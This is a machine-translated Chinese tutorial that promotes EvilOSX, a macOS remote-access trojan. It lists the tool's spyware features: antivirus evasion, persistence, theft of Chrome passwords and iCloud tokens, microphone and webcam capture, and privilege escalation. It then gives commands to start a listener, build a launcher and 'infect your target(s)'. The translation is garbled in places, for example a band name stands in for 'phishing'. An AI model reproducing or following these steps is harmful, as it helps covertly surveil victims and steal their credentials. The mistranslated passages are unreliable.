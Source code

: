 # Evil OSX——MAC OS/OS X 的邪恶远程管理工具

> 原文：<https://kalilinuxtutorials.com/evilosx-remote-administration-tool/>

**EvilOSX** 是一款用于 MacOS / OS X 的邪恶远程管理工具，具有以下功能，如模拟终端实例、简单的可扩展模块系统、无 bot 依赖、未被反病毒检测、持久、GUI 和 CLI 支持、检索 Chrome 密码、检索 iCloud 令牌和联系人、检索/监控剪贴板、检索浏览器历史记录、通过 iTunes 为 iCloud 密码费西合唱团、iTunes (iOS)备份枚举、录制麦克风、使用网络摄像头拍摄桌面截图或图片，以及尝试通过本地权限升级获取 root 权限。

**也可以理解为[auto scack-hash cat 包装器，帮助自动化破解过程](https://kalilinuxtutorials.com/autocrack-hashcat-wrapper-cracking/)**

## **如何使用 EvilOSX**

### **普通用户**

*   **服务器**端要求 python3 运行。
*   **bot** 端是用已经安装在 macOS / OS X 上的 python2 编写的。
*   安装 python3 后，打开一个终端并键入以下内容:

```
# Clone or download this repository
$ git clone https://github.com/Marten4n6/EvilOSX

# Install dependencies required by the server
$ sudo pip3 install -r requirements.txt

# Go into the repository
$ cd EvilOSX

# Start listening for connections
$ python3 start.py

# Lastly, run the built launcher (see the builder tab) on your target(s)
```

**警告:**因为有效负载是为目标系统创建的(由服务器自动创建)，所以当任何机器人第一次连接时，服务器必须正在运行。

### **高级用户**

对于那些想通过 SSH 使用它的人，还有一个命令行界面:

```
# Create a launcher to infect your target(s)
$ python3 builder.py

# Start listening for connections
$ python3 start.py --cli --port 1337

# Lastly, run the built launcher on your target(s)
```

## **截图**

![](img/a7db401bdd0c091fcd4e1a52c398083d.png) ![](img/208d0f1cb282adedee6dd46d1c68d8ac.png)

[![https://github.com/Nekmo/dirhunt](img/d861a9096555aeb1980fc054015933d7.png)](https://github.com/Marten4n6/EvilOSX)